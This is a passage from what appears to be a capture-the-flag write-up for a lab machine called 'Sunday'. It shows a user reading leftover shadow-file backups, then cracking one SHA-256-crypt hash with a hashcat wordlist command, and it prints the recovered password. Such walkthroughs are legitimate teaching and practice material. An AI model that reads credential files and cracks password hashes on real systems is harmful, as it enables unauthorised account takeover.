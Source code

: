 ```
ls
ls -la
cat .bashrc
clear
ls -la
cat .bash_history 
sudo /root/troll
cat .bash_history 
clear
exit
```

```sudo /root/troll``` seemed interesting, but when I tried it out that was the output:

```
testing
uid=0(root) gid=0(root)
```

The second thing that looked quite interesting was the line: ```ls /backup``` </br>
```
sunny@sunday:~$ ls -la /backup
total 28
drwxr-xr-x   2 root     root           4 Dec 19  2021 .
drwxr-xr-x  25 root     sys           28 Jan 15 01:30 ..
-rw-r--r--   1 root     root         319 Dec 19  2021 agent22.backup
-rw-r--r--   1 root     root         319 Dec 19  2021 shadow.backup
```

```
sunny@sunday:/backup$ cat agent22.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
sunny@sunday:/backup$ 
```

That looked like I might be able to get sammy hash aswell, I tried to bruteforce it using hashcat:
```
.\hashcat.exe -m 7400 -w 3 .\hash.txt .\rockyou.txt
```

![hashcat_result](images/sunday/hashcat_result.png)
```
.\hashcat.exe -m 7400 -w 3 .\hash.txt .\rockyou.txt --show
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
```

```